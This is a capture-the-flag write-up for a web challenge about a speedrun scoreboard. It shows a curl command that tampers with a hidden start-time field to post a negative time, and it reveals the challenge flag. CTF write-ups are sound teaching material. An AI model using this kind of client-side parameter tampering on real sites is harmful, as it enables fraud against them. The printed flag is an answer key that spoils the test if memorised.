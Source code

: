 #### Challenge:

I love Celeste Speedrunning so much!!! It's so funny to watch!!!

[Here's my favorite site!](https://mount-tunnel.web.actf.co/)


---

#### Solution:

We are presented with a website that has a scoreboard of the fastest players ("Old Lady" has a time `0`) and we are told to beat them.

Inspecting the source of the page it can be seen that there is hidden input for the start time which is pre-set to the timestamp of the page load. Setting it to some time in the future we get a negative time and beat the record.

```bash
# Just use any time in the future so its less than `0` which player "Old Lady" has
curl 'https://mount-tunnel.web.actf.co/submit' --data-raw 'start=2682231179.5145428'
```

---

<details><summary>FLAG:</summary>

```
actf{wait_until_farewell_speedrun}
```

</details>
<br/>
